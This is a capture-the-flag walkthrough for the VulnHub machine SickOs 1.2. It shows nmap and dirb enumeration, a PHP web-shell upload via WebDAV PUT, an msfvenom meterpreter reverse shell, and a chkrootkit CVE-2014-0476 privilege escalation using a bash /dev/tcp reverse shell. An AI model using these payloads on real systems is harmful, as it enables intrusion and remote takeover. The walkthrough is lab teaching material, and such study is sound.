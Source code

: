 # SickOs-1.2
SickOs 1.2 - VulnHub Walkthrough
This is a walkthrough of the SickOs 1.2 machine from VulnHub. It’s the sequel to SickOs 1.1, and it's both more challenging and more realistic, simulating situations one might encounter during a real-world penetration test.

**🔍 Discovery**
After downloading and running the machine, we see that it was assigned the IP 192.168.2.4. A port scan using nmap reveals ports 80 (HTTP) and 22 (SSH) open.
**>Target IP: 192.168.2.4**
**>Initial Scan:**
<pre>
nmap -A -T5 192.168.2.4
root@kali:~/sickos2# nmap -A -T5 192.168.2.4

PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
| 2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_ 256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open http lighttpd 1.4.28
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
OS details: Linux 3.2 - 4.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>
**Open Ports:**

**22/tcp:** SSH (OpenSSH 5.9p1)
**80/tcp:** HTTP (lighttpd 1.4.28)

**🌐 Web Enumeration**
We open a web browser, browse to http://192.168.2.4 and see the following page

The usage of **dirb** reveals the listable directory **/test.**
<pre>
root@kali:~/sickos2# dirb http://192.168.2.4
---- Scanning URL: http://192.168.2.4/ ----
+ http://192.168.2.4/index.php (CODE:200|SIZE:163) 
==> DIRECTORY: http://192.168.2.4/test/

/index.php
/test/   ← Listable directory
</pre>

**WebDAV Detection**

Making a HTTP OPTIONS request on this path shows that **/test** looks like a WebDAV directory.

<pre>
root@kali:~/sickos2# curl --head -X OPTIONS 192.168.2.4/test/
HTTP/1.1 200 OK
DAV: 1,2
MS-Author-Via: DAV
Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
Allow: OPTIONS, GET, HEAD, POST
Content-Length: 0
Date: Thu, 15 Jun 2024 16:32:35 GMT
Server: lighttpd/1.4.28
</pre>
Supports PUT, confirming WebDAV is enabled.

**🛠 Exploitation (Web Shell Upload)**
We also note that the web server seems to accept HTTP PUT requests. The PUT method should allow us to upload arbitrary files on the web server. Let’s try it out. We create a file named **shell.php** containing the following code:
<pre>
<?php
echo shell_exec("id");
?>
</pre>

Upload using:
<pre>
  curl -v -X PUT -H "Expect: " 192.168.2.4/test/shell.php -d@shell.php
</pre>
Browse to /test/shell.php to confirm code execution as www-data.

**🧠 Reverse Shell with Meterpreter**

Now that we know we can upload arbitrary PHP scripts and execute them, let’s try to spawn a shell on the machine. We use msfvenom to generate the appropriate payload.
<pre>
  root@kali:~/sickos2# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.2.3 LPORT=4444 > shell.php
</pre>
Note that 192.168.2.3 is the IP of our Kali box, where we will listen for the incoming reverse shell. Using the same command as before, we start by uploading this script on the server.
<pre
root@kali:~/sickos2# curl -v -X PUT -H "Expect: " 192.168.2.4/test/shell.php -d@shell.php
</pre>

Start **Metasploit listener**:
To catch our reverse shell.
<pre>

root@kali:~/sickos2# msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set LHOST 192.168.2.3
LHOST => 192.168.2.3
msf exploit(handler) > set LPORT 4444
LPORT => 4444
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(handler) > run

[*] Started reverse TCP handler on 192.168.2.3:4444 
[*] Starting the payload handler...

</pre>

Then, from another terminal, we trigger the PHP script that will connect back to our attacking machine.
<pre
  root@kali:~/sickos2# curl 192.168.2.4/test/shell.php
  > ls
execute.php
shell.php
> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>

**📈 Privilege Escalation**
Check installed packages:**chkrootkit** is present (v0.49)

Vulnerable to **CVE-2014-0476**

Exploiting CVE-2014-0476
Write to /tmp/update:
<pre>
#!/bin/bash
bash -i >& /dev/tcp/192.168.2.3/443 0>&1
</pre>  
Make it executable:
<pre
  chmod +x /tmp/update
</pre>
Start listener:
<pre>
  nc -lvp 443
</pre>
Since chkrootkit seems to only run daily, we expect to have to wait until the next day to obtain a root shell. Surprisingly, it comes to us after a few minutes like an early Christmas present
We can now get the flag, located in the /root directory.
**🏁 Getting the Flag**
<pre>
  cat /root/7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
</pre>
**🔐 Firewall Rules (/root/newRule)**
<pre>
  INPUT: DROP (only allows ports 22, 80)
OUTPUT: DROP (allows outbound 443, 8080)
</pre>
**⏱ Chkrootkit Cron Schedule**
Despite being in /etc/cron.daily/, it also exists in:
<pre>
/etc/cron.d/chkrootkit  
</pre>

<pre>
**Summary**
| Phase           | Technique Used                               |
| --------------- | -------------------------------------------- |
| Enumeration     | Nmap, Dirb, WebDAV detection                 |
| Initial Access  | PUT PHP file upload                          |
| Reverse Shell   | Meterpreter + Netcat fallback                |
| Firewall Bypass | Netcat-based port scanning                   |
| PrivEsc         | CVE-2014-0476 via chkrootkit & cron abuse    |
| Root Access     | Netcat listener + shell script               |
| Flag            | `/root/7d03aaa2bf93d80040f3f22ec6ad9d5a.txt` |

</pre>












